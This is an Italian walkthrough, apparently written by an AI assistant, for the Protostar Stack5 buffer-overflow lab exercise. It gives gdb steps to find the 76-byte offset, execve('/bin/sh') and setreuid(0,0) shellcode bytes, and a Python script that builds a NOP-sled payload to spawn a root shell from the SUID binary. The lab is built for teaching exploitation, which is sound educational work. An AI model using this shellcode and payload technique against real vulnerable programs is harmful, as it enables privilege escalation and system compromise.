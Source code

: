 Di seguito trovi un percorso *passo‑passo* (con comandi pronti) per risolvere **Protostar – Stack5** eseguendo shellcode tramite overflow di buffer.

---

## 0) Contesto (cosa stiamo sfruttando)

* Il binario vulnerabile è in **`/opt/protostar/bin/stack5`** e la pagina dell’esercizio fornisce anche gli *hints* (usare shellcode altrui, `\xcc` per debuggare). ([exploit.education][1])
* Su Protostar **ASLR e NX sono disabilitati**, quindi la *stack* è eseguibile e gli indirizzi sono stabili (utile per posizionare il salto). ([exploit.education][2])
* Il sorgente è minimale: buffer da 64 byte e `gets(buffer);`, quindi overflow sicuro. ([exploit.education][1])

---

## 1) Trova l’offset fino all’EIP

Nel frame di `main`, l’EIP salvato viene sovrascritto dopo i 64 byte di `buffer` + 12 byte (EBP e allineamenti): **in pratica a 76 byte**. Puoi verificarlo velocemente:

```bash
gdb -q /opt/protostar/bin/stack5
# (opzionale) stile Intel
(gdb) disas main
(gdb) r < <(python -c 'print "A"*76')     # con Python2
# oppure:
(gdb) r < <(python3 - <<'PY'
import sys; sys.stdout.buffer.write(b"A"*76)
PY
)
```

Con 76 ‘A’ il programma va in **SIGSEGV**: è il segnale che hai il controllo dell’EIP. Un write‑up mostra proprio che a 76 byte il processo crascia (e come abilita i core dump per ispezionare lo stack). ([DEV Community][3])

> Nota: invece della “conta” manuale, puoi anche usare un pattern/cyclic e poi `cyclic_find`, ma per Stack5 76 è il valore che troverai. ([kevindoubleu.github.io][4])

---

## 2) Scegli uno **shellcode** affidabile (/bin/sh)

Per x86 a 32 bit va benissimo il classico `execve("/bin/sh")` (23 byte), ad esempio questo (Shell‑Storm/Exploit‑DB):

```text
\x31\xc0\x50\x68//sh\x68/bin\x89\xe3\x50\x53\x89\xe1\x99\xB0\x0b\xcd\x80
```

(23 byte) ([shell-storm.org][5], [Exploit Database][6])

> Se vuoi **garantire i privilegi root** quando il binario è SUID, usa uno shellcode che fa prima `setreuid(0,0)` e poi `execve("/bin/sh")` (33 byte). ([Exploit Database][7])

---

## 3) Strategia di salto: “ret‑into‑sled” *dopo* l’EIP

È la via più semplice e robusta in Protostar:

1. **Metti una NOP sled e lo shellcode *dopo* l’EIP** (cioè nei byte che seguono la return address sovrascritta).
2. **Sovrascrivi l’EIP** con l’**indirizzo** che **punta dentro la NOP sled**.

Per ricavare l’indirizzo preciso:

```bash
(gdb) disas main
# troverai il ret a un indirizzo tipo 0x080483da (dipende dalla build)
(gdb) b *0x080483da
(gdb) r
AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTTUUUUVVVVWWWWXXXXYYYYZZZZ
(gdb) x/8wx $esp
```

A quel breakpoint, la word a `$esp` contiene `TTTT` (l’EIP salvato corrotto), e **`$esp+4`** contiene `UUUU` (il primo dword *dopo* l’EIP). Scegli quell’**indirizzo di `$esp+4`** come target: ci faremo atterrare il salto dentro la NOP sled che metteremo subito dopo l’EIP. Un write‑up mostra esattamente questa tecnica con gli stessi marker (“TTTT”, “UUUU”). ([kevindoubleu.github.io][4])

---

## 4) (Opzionale) Usa `\xcc` per confermare il salto

Gli *hint* ufficiali suggeriscono di usare `\xcc` (INT3) per “fermare” lanciando un **SIGTRAP** se l’EIP atterra dove vuoi. Metti qualche `\xcc` al posto della sled/shellcode per provare in `gdb`, poi rimuovili nella versione finale. ([exploit.education][1])

---

## 5) Costruisci il **payload** (Python 3)

**Sostituisci `RET_ADDR` con l’indirizzo che hai letto in gdb (di solito `$esp+4` al breakpoint sul `ret`)**:

```bash
python3 - <<'PY' > payload
import struct, sys

offset = 76  # bytes fino all'EIP
ret_addr = 0xBFFFF7B0  # <-- METTI QUI l'indirizzo che hai trovato (esempio: $esp+4)
nop     = b"\x90" * 200

shellcode = (b"\x31\xc0\x50\x68//sh\x68/bin\x89\xe3\x50\x53"
             b"\x89\xe1\x99\xb0\x0b\xcd\x80")

payload = b"A"*offset + struct.pack("<I", ret_addr) + nop + shellcode
sys.stdout.buffer.write(payload)
PY
```

L’idea (molto usata nei write‑up) è identica al seguente esempio reale: 76 ‘A’, return address che punta dentro la sled posizionata **dopo** l’EIP, e poi lo shellcode per `/bin/sh`. ([DEV Community][3])

> Se vuoi prima fare la prova con `\xcc`, sostituisci `shellcode = b"\xcc"*4` e lancia dentro `gdb`: dovresti vedere **SIGTRAP** quando il salto riesce (come suggerito dagli hint). ([exploit.education][1])

---

## 6) Esegui ed ottieni la shell (mantenendo STDIN aperto)

Per avere una shell interattiva via pipe, usa il “trucco del **cat**” per tenere aperto lo **stdin**:

```bash
# Variante interattiva
( cat payload; cat ) | /opt/protostar/bin/stack5
# ora digita comandi, es.:
id
```

Questo schema è mostrato anche in una guida a Stack5 (mantiene vivo lo stdin per interagire con la shell appena eseguita). ([noobfromPitt][8])

Se vuoi verificare al volo senza interattività:

```bash
cat payload | /opt/protostar/bin/stack5
```

---

## 7) Perché funziona (riassunto)

* `gets()` scrive oltre i 64 byte di `buffer`, sovrascrivendo **EBP** e poi la **return address**.
* Con 76 byte arriviamo a controllare l’EIP. (Mostrato in analisi e write‑up.) ([DEV Community][3], [kevindoubleu.github.io][4])
* Iniettiamo **NOP sled + shellcode** nello stack e facciamo puntare l’EIP dentro la sled: la CPU scivola (“sled”) fino allo shellcode e **esegue `/bin/sh`**. (Shellcode standard 23B.) ([shell-storm.org][5])
* Su Protostar la **stack è eseguibile** e **ASLR è off**, quindi la tecnica “ret‑into‑stack” funziona senza ROP. ([exploit.education][2])

---

## 8) Note pratiche / troubleshooting

* **Indirizzi leggermente diversi dentro/fuori gdb**: capita per differenze d’ambiente. Se noti mismatch, aumenta la NOP sled (es. 400–800 byte) o prendi un indirizzo un po’ più “nel mezzo” dei tuoi NOP. Un post mostra che bastano *sled* di qualche decina/centinaio di byte per assorbire gli scostamenti. ([Stack Overflow][9])
* **SUID e privilegi**: se la shell dovesse *droppare* privilegi, usa lo shellcode con `setreuid(0,0)` prima di `execve`. ([Exploit Database][7])
* **Debug con core**: se vuoi analizzare i crash dei SUID, abilita i core dump come nell’esempio ( `ulimit -c unlimited` e `printf 1 > /proc/sys/fs/suid_dumpable` ) per poi aprire il core in gdb. ([DEV Community][3])

---

### Riferimenti che ho usato

* Pagina ufficiale “Stack Five” (per percorso del binario e *hints*). ([exploit.education][1])
* Pagina principale di Protostar (spiega che **NX/ASLR sono disabilitati**). ([exploit.education][2])
* Write‑up con conferma dell’**offset 76**, breakpoint su `ret` e strategia “salta nel post‑EIP”. ([DEV Community][3], [kevindoubleu.github.io][4])
* Shellcode `/bin/sh` (23 byte). ([shell-storm.org][5])
* Shellcode `setreuid(0,0) + /bin/sh` (33 byte) per SUID. ([Exploit Database][7])

Se vuoi, posso aiutarti a ricavare **l’indirizzo esatto** dal tuo gdb (incollami l’output di `x/8wx $esp` al breakpoint sul `ret`) e ti preparo il payload con il `ret_addr` già corretto per la tua VM. 💪🏻

[1]: https://exploit.education/protostar/stack-five/ "Stack Five :: Andrew Griffiths' Exploit Education"
[2]: https://exploit.education/protostar/?utm_source=chatgpt.com "Protostar :: Andrew Griffiths' Exploit Education"
[3]: https://dev.to/hextrace/jump-into-local-shellcode-protostar-stack5-57mb "Jump into shellcode (protostar - stack5) - DEV Community"
[4]: https://kevindoubleu.github.io/writeups/exploit-education/protostar/stack/stack5/ "
        
            Protostar - stack5 - doubleu
        
    "
[5]: https://shell-storm.org/shellcode/files/shellcode-827.php?utm_source=chatgpt.com "Linux/x86 - execve /bin/sh shellcode - 23 bytes - Shell-Storm.org"
[6]: https://www.exploit-db.com/exploits/37384?utm_source=chatgpt.com "Linux/x86 - execve(/bin/sh) Shellcode (23 bytes) (1) - Exploit-DB"
[7]: https://www.exploit-db.com/exploits/13379?utm_source=chatgpt.com "Linux/x86 - setreuid(0,0) + execve(\"/bin/sh\", [\"/bin/sh\", NULL ..."
[8]: https://noobfrompitt.github.io/protostar-stack5/ "Protostar stack5 walkthrough - noobfromPitt"
[9]: https://stackoverflow.com/questions/72487665/how-i-can-get-this-memory-address-in-protostar-stack-5-ctf?utm_source=chatgpt.com "How i can get this memory address in Protostar stack 5 CTF"
